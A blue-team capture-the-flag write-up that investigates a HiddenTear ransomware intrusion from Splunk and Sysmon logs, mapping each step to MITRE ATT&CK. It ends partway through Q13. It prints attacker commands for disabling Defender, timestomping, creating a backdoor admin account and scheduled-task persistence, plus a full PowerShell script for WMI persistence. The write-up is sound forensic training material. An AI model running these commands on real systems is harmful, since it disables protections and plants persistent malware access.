

# Stolen Time - HiddenTear Lab


# Table of Contents
- [Table of Contents](#table-of-contents)
- [Context](#context)
- [Scenario](#scenario)
- [Initial Access](#initial-access)
- [Execution](#execution)
  * [Abusing Code Build Tools](#abusing-code-build-tools)
- [Defense Evasion](#defense-evasion)
  * [Timestomping](#timestomping)
- [Persistence](#persistence)
  * [WMI Event Subscription Persistence](#wmi-event-subscription-persistence)
- [Credential Access](#credential-access)
  * [Split-Token Logon](#split-token-logon)
  * [Kerberos Encryption Downgrade as Forgery](#kerberos-encryption-downgrade-as-forgery)
- [Discovery](#discovery)
- [Lateral Movement](#lateral-movement)
- [Command and Control](#command-and-control)
- [Collection](#collection)
- [Exfiltration](#exfiltration)
- [Impact](#impact)
- [Lab Summary](#lab-summary)
  * [Environment](#environment)
  * [Attacker Infrastructure](#attacker-infrastructure)
  * [IOCs](#iocs)
    + [Files](#files)
    + [Hashes](#hashes)
    + [Accounts and Credentials](#accounts-and-credentials)
    + [Ransomware](#ransomware)
  * [Attack Chain](#attack-chain)
- [Forensic Timeline](#forensic-timeline)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/stolen-time-hiddentear/](https://cyberdefenders.org/blueteam-ctf-challenges/stolen-time-hiddentear/)

Suggested tools: DB Browser for SQLite, Registry Explorer, Timeline Explorer, Splunk, EZ Tools, VirusTotal

Tactics: Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Collection, Exfiltration, Impact

# Scenario

On December 2, 2025, the SOC team received an alert indicating a potentially malicious file download on a corporate workstation. Initial triage revealed that a user had downloaded software from an untrusted source, triggering suspicious process chains and network connections to external infrastructure.

Within hours, the attack escalated dramatically: the threat actor deployed a sophisticated command-and-control framework, harvested domain credentials, forged Kerberos tickets for unrestricted domain access, and moved laterally to all critical servers including the domain controller, file server, and backup server. The attack culminated in data exfiltration of sensitive corporate information followed by ransomware deployment demanding a substantial Bitcoin payment.

# Initial Access

Q1- The user's web browsing history shows they were searching for a pirated version of a specific software. What was the user's Google search query?

Answer: `cracked sharp world clock`

Reason: User `ncooper` on `Workstation-01` searched Google for a pirated version of `Sharp World Clock`, which established the initial access vector for this incident. Chrome recorded this activity in the SQLite history database at `C:\Users\ncooper\AppData\Local\Google\Chrome\User Data\Default\History`, specifically in the `urls` table, which supports the conclusion that the user likely clicked a trojanized software crack that delivered the `HiddenTear` dropper. This aligns with MITRE ATT&CK technique `T1204.002` (User Execution: Malicious File).

```powershell
C:\Users\ncooper\AppData\Local\Google\Chrome\User Data\Default\History
urls Table
URL value: https://www.google.com/search?q=cracked+sharp+world+clock
```


Q2- From which content delivery network (CDN) domain did the user download the malicious file?

Answer: `edge15.82.ir.cdn.ir`

Reason: The actual content delivery network (CDN) download domain was not captured in the Chrome SQLite database. `chrome.exe` wrote the `Zone.Identifier` alternate data stream (ADS) for `C:\Users\ncooper\Downloads\Sharp.World.Clock.9.6.7.rar` and Sysmon Event ID `15` (`FileCreateStreamHash`) recorded it on `Workstation-01`. The `Contents` field includes `HostUrl=https://edge15[.]82[.]ir[.]cdn[.]ir/soft/s/Sharp.World.Clock.9.6.7.rar?1764683751`, which indicates `Sharp.World.Clock.9.6.7.rar` was downloaded from `edge15[.]82[.]ir[.]cdn[.]ir`, a CDN node associated with the piracy site `soft98[.]ir`. This activity aligns with MITRE ATT&CK technique `T1189` (Drive-by Compromise), as indicated by the Sysmon rule tag.

```bash
# SPL
index=* host="WORKSTATION-01" "soft98"

# XML
<Data Name='RuleName'>technique_id=T1189,technique_name=Drive-by Compromise</Data>
<Data Name='UtcTime'>2025-12-02 13:56:01.509</Data>
<Data Name='ProcessGuid'>{c73af8d8-efee-692e-0212-000000005200}</Data>
<Data Name='ProcessId'>12424</Data>
<Data Name='Image'>C:\Program Files\Google\Chrome\Application\chrome.exe</Data>
<Data Name='TargetFilename'>C:\Users\ncooper\Downloads\Sharp.World.Clock.9.6.7.rar:Zone.Identifier</Data>
<Data Name='CreationUtcTime'>2025-12-02 13:55:56.538</Data>
<Data Name='Hash'>SHA1=99C03105487B8CED430D1ECDB0D3CDAFA69C2781,MD5=60CC950EAD662B7146581602FD10D35C,SHA256=3767CE9852EA45D2C605E8941E24D50A159C0377B4C346D16585570E1E486930,IMPHASH=00000000000000000000000000000000</Data>
<Data Name='Contents'>[ZoneTransfer] ZoneId=3 ReferrerUrl=https://soft98.ir/ HostUrl=https://edge15.82.ir.cdn.ir/soft/s/Sharp.World.Clock.9.6.7.rar?1764683751 </Data>
<Data Name='User'>CORP\ncooper</Data>
```

# Execution

Q3- After the user extracted the archive, what was the name of the setup file they executed to initiate the infection?

Answer: `world_clock_setup.exe`

Reason: After extracting the downloaded archive, `ncooper` ran `world_clock_setup.exe` from the extracted folder, which immediately dropped a malicious payload `WorldClock.exe` into the user's `AppData\Roaming` directory. This is a classic trojanized installer pattern where the setup binary masquerades as legitimate software while silently deploying the actual malware. Writing to `AppData\Roaming` is a commonly abused technique because it requires no administrative privileges, allowing the malware to persist in a user-writable location without triggering User Account Control (UAC) prompts. This activity was captured by Sysmon Event ID 11 (FileCreate) on `Workstation-01`, approximately four minutes after the archive was downloaded. This maps to MITRE ATT&CK technique T1204.002 (User Execution: Malicious File), where a user is socially engineered or deceived into manually running a malicious file.

Q4- The initial payload used a legitimate Microsoft build tool to execute the next stage of the attack. What is the name of this tool?

Answer: `MSBuild.exe`

Reason: The trojanized installer launched `cmd.exe`, which in turn spawned `MSBuild.exe` from the .NET Framework directory. This technique is known as Trusted Developer Utilities Proxy Execution (TDUP), where attackers abuse a legitimately signed Microsoft binary to execute malicious inline tasks, effectively bypassing application whitelisting (AWL) controls. Signed binaries like `MSBuild.exe` are frequently trusted by AWL solutions such as AppLocker and Windows Defender Application Control (WDAC), making them attractive vehicles for code execution without triggering policy blocks. Notably, `MSBuild.exe` ran at a High integrity level and was launched from the extracted archive's working directory, indicating the payload already carried elevated privileges at this stage. This suggests the installer itself was either run by a privileged user or leveraged a privilege escalation mechanism prior to reaching this execution step. Running from the working directory of the extracted archive rather than a standard system path is also consistent with in-place staging behavior. This activity maps to MITRE ATT&CK T1127.001 - Trusted Developer Utilities Proxy Execution: `MSBuild`.

```xml
<Data Name='RuleName'>technique_id=T1127,technique_name=Trusted Developer Utilities Proxy Execution</Data>
<Data Name='UtcTime'>2025-12-02 14:00:05.079</Data>
<Data Name='ProcessGuid'>{c73af8d8-f0e5-692e-2b12-000000005200}</Data>
<Data Name='ProcessId'>11868</Data>
<Data Name='Image'>C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe</Data>
<Data Name='FileVersion'>4.8.9037.0 built by: NET481REL1</Data>
<Data Name='Description'>MSBuild.exe</Data>
<Data Name='Product'>Microsoft® .NET Framework</Data>
<Data Name='Company'>Microsoft Corporation</Data>
<Data Name='OriginalFileName'>MSBuild.exe</Data>
<Data Name='CommandLine'>C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe</Data>
<Data Name='CurrentDirectory'>C:\Users\ncooper\Downloads\Sharp World Clock\</Data>
<Data Name='User'>CORP\ncooper</Data>
<Data Name='LogonGuid'>{c73af8d8-c4e1-692e-ef17-d00100000000}</Data>
<Data Name='LogonId'>0x1d017ef</Data>
<Data Name='TerminalSessionId'>3</Data>
<Data Name='IntegrityLevel'>High</Data>
<Data Name='Hashes'>SHA1=2336C9A20ECD53EC1BE468282BAE94C8160EB93A,MD5=9F331A11A054F33664FE86543FC34CF0,SHA256=5F9AF68DB10B029453264CFC9B8EEE4265549A2855BB79668CCFC571FB11F5FC,IMPHASH=F34D5F2D4577ED6D9CEEC516C1F5A744</Data>
<Data Name='ParentProcessGuid'>{c73af8d8-f0e4-692e-2912-000000005200}</Data>
<Data Name='ParentProcessId'>15836</Data>
<Data Name='ParentImage'>C:\Windows\System32\cmd.exe</Data>
<Data Name='ParentCommandLine'>"cmd.exe" /c C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe</Data>
<Data Name='ParentUser'>CORP\ncooper</Data>
```

## Abusing Code Build Tools

Attackers abuse legitimate, signed build and developer utilities already present on Windows systems to execute malicious code, bypassing application whitelisting (AWL) and endpoint defenses that trust these binaries by default. Rather than dropping custom malware, the attacker lives off the land, using the operating system's own trusted tooling as a weapon. These tools are particularly dangerous because they are signed by Microsoft, often excluded from antivirus (AV) scanning, and their process activity blends into normal developer workflows.

Common examples include `MSBuild.exe`, which supports inline C# task execution via project files; `InstallUtil.exe`, which can be abused to load arbitrary .NET assemblies through its installer class mechanism; `regsvr32.exe`, which can fetch and execute remote scriptlets over HTTP without writing files to disk; and `msiexec.exe`, which can be pointed at a remote Microsoft Installer (MSI) payload for silent delivery and execution. The pattern extends beyond these well-known cases to any trusted developer utility capable of compiling, interpreting, or loading code.

What makes this class of technique particularly effective is the combination of legitimacy and capability. Security controls that rely on binary signatures or process reputation scoring will generally permit these binaries to run, and their network or file activity may go unquestioned in environments where development tooling is common. Detection therefore requires behavioral analysis, such as monitoring for `MSBuild.exe` spawned outside of a build pipeline, or `regsvr32.exe` making outbound network connections, rather than simply blocking by name or hash.

This activity maps to MITRE ATT&CK T1127: Trusted Developer Utilities Proxy Execution.

Q5- The final stage of the initial execution chain was a malicious DLL loaded by a native Windows process. What is the full path of this DLL?

Answer: `C:\Users\ncooper\Music\WakeWordEngine.dll`

Reason: The final stage of the initial execution chain involved `rundll32.exe`, a native Windows binary, loading an unsigned Dynamic Link Library (DLL) named `WakeWordEngine.dll` from `C:\Users\ncooper\Music\`, a highly anomalous location for a DLL chosen to avoid scrutiny. The DLL carried no valid file description, product, or company metadata, confirming it as a malicious implant rather than a legitimate library. The use of `C:\Users\ncooper\Music\` as a staging directory is a deliberate evasion choice. User profile subdirectories such as `Music`, `Pictures`, and `Videos` are rarely monitored for DLL activity and do not trigger the same scrutiny as paths like `%TEMP%` or `%APPDATA%`, which endpoint detection and response (EDR) tools flag more readily.

```bash
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=7 User="CORP\\ncooper" EventDescription="Image loaded"
UtcTime:       2025-12-02 14:00:09.462
Image:         C:\Windows\System32\rundll32.exe
ImageLoaded:   C:\Users\ncooper\Music\WakeWordEngine.dll
Signed:        false
SHA256:        0C1A20B225DAA295C4CFD609884AFAD10C301FF56241500B82B35104240904F1
User:          CORP\ncooper

# SPL
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"  EventCode=7  User="CORP\\ncooper"  EventDescription="Image loaded"
```

# Defense Evasion

Q6- The attacker injected their code from the initial process into a more stable, legitimate Windows process to hide their activities. What was the target process for this injection?

Answer: `explorer.exe`

Reason: Approximately 31 minutes after the initial DLL load, `rundll32.exe` performed a DLL injection into `explorer.exe`, a persistent, always-running Windows shell process, granting the malware a stable, trusted host that blends entirely into normal system activity. Injecting into `explorer.exe` is a common persistence and evasion strategy because the process is guaranteed to run for the duration of the user session and is rarely terminated or scrutinized by endpoint controls. The `GrantedAccess` value of `0x1410` confirms the handle was opened with `PROCESS_VM_READ`, `PROCESS_QUERY_INFORMATION`, and `PROCESS_QUERY_LIMITED_INFORMATION` rights, consistent with reconnaissance and injection precursor access. Notably, this access mask does not include `PROCESS_VM_WRITE` or `PROCESS_CREATE_THREAD`, which are typically required for classical DLL injection, suggesting the injection mechanism may rely on an alternative code execution primitive such as a trampoline, hijacked thread, or reflective loading technique.

The call trace shows execution passing through .NET native image assemblies before landing in unknown memory, indicating the injected code ran from a dynamically allocated region with no backing image on disk, a strong indicator of fileless execution. This maps to MITRE ATT&CK T1055.001: Process Injection: Dynamic-link Library Injection.

```bash
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=10 TargetImage="C:\\Windows\\explorer.exe"
UtcTime:        2025-12-02 14:31:15.592
SourceImage:    C:\Windows\system32\rundll32.exe
TargetImage:    C:\Windows\Explorer.EXE
GrantedAccess:  0x1410
SourceUser:     CORP\ncooper
```

Q7- The attacker used a PowerShell command to disable real-time monitoring for the host's antivirus solution. What is the full command that was executed?

Answer: `Set-MpPreference -DisableRealtimeMonitoring $true`

Reason: The attacker used `cmd.exe` to run `powershell` and disable Microsoft Defender Antivirus real-time monitoring, a common defense evasion step taken before ransomware staging to reduce detection and quarantine. The command ran at `High` integrity from `C:\Users\ncooper\Music\`, the same directory that contained the malicious `WakeWordEngine.dll`, which supports attribution to the implant rather than a user-initiated action. The cmdlet `Set-MpPreference -DisableRealtimeMonitoring $true` disables Microsoft Defender Antivirus (MDAV) real-time protection through its built-in management interface, without third-party tooling and without dropping additional files. Since the activity uses a legitimate, signed PowerShell cmdlet, it can evade some script-focused detections more effectively than approaches that patch Defender binaries or directly tamper with registry keys. Disabling real-time monitoring removes a key behavioral detection layer before encryption, which helps the attacker stage and execute subsequent payloads with a lower risk of quarantine interference.

This maps to MITRE ATT&CK T1562.001: Impair Defenses: Disable or Modify Tools.

```bash
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
CommandLine:        powershell Set-MpPreference -DisableRealtimeMonitoring $true
ParentCommandLine:  C:\Windows\system32\cmd.exe /C powershell Set-MpPreference -DisableRealtimeMonitoring $true
CurrentDirectory:   C:\Users\ncooper\Music\
IntegrityLevel:     High
UtcTime:            2025-12-02 14:22:17.482
```

Q8- On the file server, the attacker executed a PowerShell command to modify the timestamps of the staged archive to a future date, hiding its true creation time. What year was the file's timestamp changed to?

Answer: `2036`

Reason: On the file server (`FS01`), the attacker ran a PowerShell command as `NT AUTHORITY\SYSTEM` to manipulate all three NTFS timestamps, `CreationTime`, `LastWriteTime`, and `LastAccessTime`, of a staged archive `npoived.zip` in `C:\Users\Public\` to a future date of `2036-01-01`. This technique is known as timestomping, used to confuse timeline-based forensic analysis by making the file appear to not yet exist at the time of investigation. Setting timestamps to a future date rather than a plausible past date is a notable choice. While backdating is more common, forward-dating pushes the file outside the expected forensic window entirely, causing timeline tools to either sort it anomalously or have analysts dismiss it as a parsing error. The use of `C:\Users\Public\` as a staging path is also deliberate, as it is world-writable by default and requires no special permissions to place files. The command ran from `C:\Shares\` at System integrity level, confirming the attacker had achieved full system-level control of `FS01` prior to this action. The `-NoProfile` flag suppresses PowerShell profile loading, reducing execution noise and avoiding any profile-based logging or alerting hooks that a defender may have configured.

This maps to MITRE ATT&CK T1070.006: Indicator Removal: Timestomp.

```
index=* host="FS01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" CreationTime
UtcTime:      2025-12-02 17:45:16.853
CommandLine:  powershell -NoProfile -Command "(Get-Item 'C:\Users\Public\npoived.zip').CreationTime = [datetime]'2036-01-01T00:00:00'; (Get-Item 'C:\Users\Public\npoived.zip').LastWriteTime = [datetime]'2036-01-01T00:00:00'; (Get-Item 'C:\Users\Public\npoived.zip').LastAccessTime = [datetime]'2036-01-01T00:00:00'"
TargetFile:   C:\Users\Public\npoived.zip
User:         NT AUTHORITY\SYSTEM
```

```powershell
C:\Windows\system32\cmd.exe /C powershell -NoProfile -Command "(Get-Item 'C:\Users\Public\npoived.zip').CreationTime = [datetime]'2036-01-01T00:00:00'; (Get-Item 'C:\Users\Public\npoived.zip').LastWriteTime = [datetime]'2036-01-01T00:00:00'; (Get-Item 'C:\Users\Public\npoived.zip').LastAccessTime = [datetime]'2036-01-01T00:00:00'
```

## Timestomping

Timestomping is the manipulation of a file's NTFS metadata timestamps, specifically `CreationTime`, `LastWriteTime`, and `LastAccessTime`, to mislead forensic timeline analysis by making a file appear older, newer, or to predate or postdate the investigation window entirely. Attackers use it to break chronological correlation between artifacts, making it harder to place a file within an attack timeline or link it to other events.

A key forensic consideration is that NTFS maintains a second, less accessible set of timestamps in the Master File Table (MFT) entry itself, known as the `$STANDARD_INFORMATION` attribute, alongside the `$FILE_NAME` attribute timestamps. Tools that manipulate timestamps via the Windows API, including PowerShell's `Get-Item` property assignments, only modify `$STANDARD_INFORMATION`. The `$FILE_NAME` timestamps are updated only by the kernel during certain file operations and cannot be easily modified from user space, meaning a discrepancy between the two attribute sets is a reliable indicator of timestomping having occurred.

Timestomping does not alter file content, so hash-based detection remains effective regardless of timestamp manipulation. Detection strategies should include MFT parsing with tools such as `MFTECmd` to compare both timestamp attributes directly.

Q9- After gaining access to the domain controller, the attacker injected their beacon into two system processes for stealth and stability. What are the names of these two processes?

Answer: `spoolsv.exe`, `dwm.exe`

Reason: After pivoting to the Domain Controller (`DC01`), `rundll32.exe` running as `NT AUTHORITY\SYSTEM` performed `CreateRemoteThread` injection into two processes: `dwm.exe` (Desktop Window Manager, a core graphics subsystem process) and `spoolsv.exe` (Print Spooler service). Both targets were chosen for their persistence and legitimacy, as they run continuously under trusted system accounts and are rarely scrutinized by endpoint controls. The two injections occurred 26 seconds apart. Both events recorded unknown start modules and no named start functions, indicating shellcode was written directly into dynamically allocated memory regions rather than referencing a named DLL export. This is consistent with reflective or position-independent shellcode execution, where the injected code is entirely self-contained and leaves no backing image on disk. The choice of `dwm.exe` is notable because it runs under the `Window Manager\DWM-1` account, a isolated session account, meaning any activity originating from it inherits that account's context and may evade detections scoped to `SYSTEM` or user-level processes. Injecting into `spoolsv.exe` provides a second foothold under `NT AUTHORITY\SYSTEM` directly, giving the attacker redundant execution paths if one target process is terminated or flagged.

This maps to MITRE ATT&CK T1055 - Process Injection.

```bash
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventDescription=CreateRemoteThread
SourceImage:  C:\Windows\SysWOW64\rundll32.exe
SourceUser:   NT AUTHORITY\SYSTEM

Injection 1
UtcTime:      2025-12-02 16:50:03.744
TargetImage:  C:\Windows\System32\dwm.exe
TargetUser:   Window Manager\DWM-1

Injection 2
UtcTime:      2025-12-02 16:50:29.784
TargetImage:  C:\Windows\System32\spoolsv.exe
TargetUser:   NT AUTHORITY\SYSTEM

# SPL
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventDescription=CreateRemoteThread
```

# Persistence

Q10- The attacker created a new local user account on WORKSTATION-01 to maintain access. What was the username and password of this account?

Answer: `SvcAdmin`:`Qwerty12345`!

Reason: Following the Dynamic Link Library (DLL) injection into `explorer.exe`, the attacker executed a three-step account persistence sequence on `Workstation-01`. The attacker first created a local user `SvcAdmin` with the password `Qwerty12345!` using `net user`, then immediately added the account to the local Administrators group, and finally to the Remote Desktop Users group. This granted both elevated privileges and remote access capability under a believable service-account name designed to blend in with legitimate system accounts. All three commands executed within 23 seconds via `cmd.exe`, a timing pattern consistent with automated post-exploitation tooling rather than manual operator input. This activity maps to MITRE ATT&CK technique T1136.001, Create Account: Local Account, with secondary relevance to T1098, Account Manipulation, for the group membership modifications that escalated privileges.

Corroborating evidence appears in the Windows Security event log under Event ID (EID) `4720`, which records local account creation. The `TargetUserName` field shows `SvcAdmin` as the newly created account, while the `SubjectUserName` field identifies `ncooper` as the user context under which the creation occurred, timestamped `2025-12-02 14:08:06`. The mismatch between the subject account `ncooper` and the suspicious target account `SvcAdmin` is a key indicator that `ncooper` was the compromised account leveraged by the attacker after the initial DLL injection.

```bash
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" SvcAdmin | table _time, CommandLine

<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
    <System>
        <Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/>
        <EventID>1</EventID>
        <Version>5</Version>
        <Level>4</Level>
        <Task>1</Task>
        <Opcode>0</Opcode>
        <Keywords>0x8000000000000000</Keywords>
        <TimeCreated SystemTime='2025-12-02T14:08:06.4755064Z'/>
        <Data Name='CommandLine'>net  user SvcAdmin Qwerty12345! /add</Data>
...     <SNIP>
```

Account creation command, which provisions the local user with the specified password:

```bash
net user SvcAdmin Qwerty12345! /add
```

Q11- To ensure the malware would run every time the user logged on, the attacker created a scheduled task. What was the name given to this task?

Answer: `SystemUpdate` 

Reason: Running under the `NT AUTHORITY\SYSTEM` context, the attacker created a scheduled task named `SystemUpdate` configured to execute `rundll32.exe` and load `WakeWordEngine.dll` from `C:\Users\Public\Music\`. This represents a new copy of the malicious Dynamic Link Library (DLL) relocated to a more durable public path, since the `C:\Users\Public\` directory is world-writable and persists independently of any single user profile. The task triggers every time `ncooper` logs on, ensuring the beacon re-establishes itself after reboots, logoffs, or session interruptions.

The task name `SystemUpdate` is deliberately generic to impersonate legitimate Windows maintenance tasks and avoid analyst scrutiny during routine reviews of the Task Scheduler library. The choice of `rundll32.exe` as the execution vehicle is also notable: it is a signed Microsoft binary commonly abused for proxy execution of malicious DLLs, a technique that helps evade application whitelisting controls that trust system-signed processes. This activity maps to MITRE ATT&CK technique T1053.005, Scheduled Task/Job: Scheduled Task, with secondary relevance to T1218.011, System Binary Proxy Execution: `Rundll32`.

The Search Processing Language (SPL) query below pivots on Sysmon Event ID (EID) `1` process creation events on the host, filtering for command lines invoking `schtasks`:

```bash
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" schtasks EventCode=1

<Data Name='RuleName'>technique_id=T1053.005,technique_name=Scheduled Task/Job</Data>
<Data Name='UtcTime'>2025-12-02 14:42:04.042</Data>
...
<Data Name='CommandLine'>schtasks /create /tn "SystemUpdate" /tr "rundll32.exe C:\Users\Public\Music\WakeWordEngine.dll,Start" /sc onlogon /ru ncooper /f</Data>
<Data Name='CurrentDirectory'>C:\Users\ncooper\Music\</Data>
<Data Name='User'>NT AUTHORITY\SYSTEM</Data>
...
<Data Name='ParentImage'>C:\Windows\System32\cmd.exe</Data>
<Data Name='ParentCommandLine'>C:\Windows\system32\cmd.exe /C schtasks /create /tn "SystemUpdate" /tr "rundll32.exe C:\Users\Public\Music\WakeWordEngine.dll,Start" /sc onlogon /ru ncooper /f</Data>
```

The full command line registered the persistence entry with an on-logon trigger scoped to the `ncooper` user account, and the `/f` flag forces creation without prompting, suppressing any overwrite confirmation if a task of the same name already existed:

```bash
schtasks /create /tn "SystemUpdate" /tr "rundll32.exe C:\Users\Public\Music\WakeWordEngine.dll,Start" /sc onlogon /ru ncooper /f
```

Q12- On the domain controller, the attacker created a WMI Event Subscription for persistence. What is the name of the WMI Event Filter that was created?

Answer: `WindowsUpdateCheck`

Reason: From within the injected `rundll32.exe` process on `DC01`, the attacker used `wmic` to establish a Windows Management Instrumentation (WMI) Event Subscription persistence mechanism. The attacker registered an event filter named `WindowsUpdateCheck` bound to a `CommandLineEventConsumer` named `WindowsUpdateConsumer`, completing the classic WMI persistence trio of filter, consumer, and binding. This technique survives reboots and executes arbitrary commands when a triggering condition is met, operating entirely within the WMI repository and leaving no scheduled task entry or registry Run key for defenders to find during routine persistence sweeps. The filter defines the triggering event, the consumer defines the action to execute, and the `__FilterToConsumerBinding` instance ties the two together so the consumer fires whenever the filter condition evaluates true. Both names mimic legitimate Windows Update activity to avoid detection, blending into the noise of normal patch management telemetry on a domain controller. The choice of `DC01` as the persistence host is particularly significant: a domain controller compromise provides authoritative access to the directory service and affects the entire Active Directory (AD) environment. This activity maps to MITRE ATT&CK technique T1546.003, Event Triggered Execution: Windows Management Instrumentation Event Subscription.

```bash
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" wmic

<Data Name='RuleName'>technique_id=T1059.003,technique_name=Windows Command Shell</Data>
<Data Name='UtcTime'>2025-12-02 17:00:41.211</Data>
...
<Data Name='CommandLine'>C:\Windows\system32\cmd.exe /C wmic /namespace:\\root\subscription PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"WindowsUpdateCheck\"", Consumer="CommandLineEventConsumer.Name=\"WindowsUpdateConsumer\""</Data>
<Data Name='CurrentDirectory'>C:\Windows\Temp\</Data>
<Data Name='User'>NT AUTHORITY\SYSTEM</Data>
...
<Data Name='ParentImage'>C:\Windows\SysWOW64\rundll32.exe</Data>
<Data Name='ParentCommandLine'>C:\Windows\System32\rundll32.exe</Data>
```

The full command line targeted the `root\subscription` WMI namespace, the standard location for permanent event subscription objects, and instantiated the binding referencing the previously registered filter and consumer instances by name:

```bash
wmic /namespace:\\root\subscription PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"WindowsUpdateCheck\"", Consumer="CommandLineEventConsumer.Name=\"WindowsUpdateConsumer\""
```

## WMI Event Subscription Persistence

WMI Event Subscription persistence abuses the Windows Management Instrumentation (WMI) repository to execute attacker-controlled code in response to system events, without writing to disk locations defenders typically monitor.

The technique requires three WMI objects working together:

1. Event Filter (`__EventFilter`): defines the trigger condition using WMI Query Language (WQL), such as a user logon, a process start, or a time interval.
2. Event Consumer (`CommandLineEventConsumer`, `ActiveScriptEventConsumer`): defines the action to execute when the filter fires, typically a command line, script, or binary path.
3. Filter-to-Consumer Binding (`__FilterToConsumerBinding`): links the filter and consumer so the consumer executes whenever the filter condition is met.

All three objects live in the `root\subscription` namespace and persist inside the WMI repository database at `C:\Windows\System32\wbem\Repository\`, surviving reboots without any scheduled task, registry Run key, service, or startup folder entry.

Why attackers favor it:

- No disk artifacts in conventional persistence locations.
- Executes as `NT AUTHORITY\SYSTEM` by default for permanent subscriptions.
- Native to Windows, requires no additional tooling.
- Often missed by tools that focus on Autoruns-style persistence sweeps.

Common creation methods: `wmic`, `PowerShell` cmdlets (`Set-WmiInstance`, `New-CimInstance`), or `mofcomp.exe` compiling a Managed Object Format (MOF) file.

Detection guidance: monitor process creation for `wmic` or `PowerShell` referencing the `root\subscription` namespace, and enable the WMI-Activity Operational log to capture filter and consumer registration events.

**Example Code**: Below is a minimal example showing the three WMI objects being created in sequence to establish persistence. This uses `PowerShell` since it is the most common method seen in modern intrusions, replacing the deprecated `wmic` utility.

```powershell
$FilterArgs = @{
    Name = "WindowsUpdateCheck"
    EventNameSpace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LogonSession'"
}
$Filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments $FilterArgs

$ConsumerArgs = @{
    Name = "WindowsUpdateConsumer"
    CommandLineTemplate = "rundll32.exe C:\Users\Public\Music\WakeWordEngine.dll,Start"
}
$Consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments $ConsumerArgs

$BindingArgs = @{
    Filter = $Filter
    Consumer = $Consumer
}
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments $BindingArgs
```

Walkthrough of each block:

1. Filter: registers a Windows Query Language (WQL) query that fires whenever a new logon session is created, polled every 60 seconds. The `__InstanceCreationEvent` class watches for new instances of any specified Common Information Model (CIM) class, in this case `Win32_LogonSession`.
2. Consumer: defines the payload as a `CommandLineEventConsumer` that invokes `rundll32.exe` against the malicious Dynamic Link Library (DLL), reusing the same proxy execution technique seen in the scheduled task persistence.
3. Binding: links the filter and consumer so the consumer fires every time the filter condition evaluates true.

Once registered, the subscription persists in the WMI repository and triggers on every matching logon event with no further attacker interaction required.

Q13- The attacker established persistence on the file server (FS01) by creating a malicious Windows service. What is the name of this service?

Answer: `WindowsUpdateService`

Reason: On the File Server, the attacker created a Windows service named `WindowsUpdateService` pointing to `C:\Windows\Temp\winupdate.exe` with a startup type of `auto`. This configuration ensures the binary executes automatically on every system boot without any user interaction required, providing reboot-resistant persistence at the operating system level. The service binary resides in `C:\Windows\Temp\`, a world-writable directory used throughout this attack as a staging location for tooling and payloads. The service name once again mimics legitimate Windows Update infrastructure to blend into the Services Microsoft Management Console (MMC) listing alongside genuine entries such as `wuauserv` and `UsoSvc`. The command executed under `cmd.exe` running as `NT AUTHORITY\SYSTEM`, consistent with the attacker's already-established system-level foothold on `FS01` from earlier stages of the intrusion. Service-based persistence is particularly valuable to attackers because services launched at boot inherit the `LocalSystem` security context by default, granting full local privileges without requiring a logged-on user. This activity maps to MITRE ATT&CK technique T1543.003, Create or Modify System Process: Windows Service. 

```bash
index=* host="FS01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "sc create"

<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
    <System>
        <Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/>
        ...
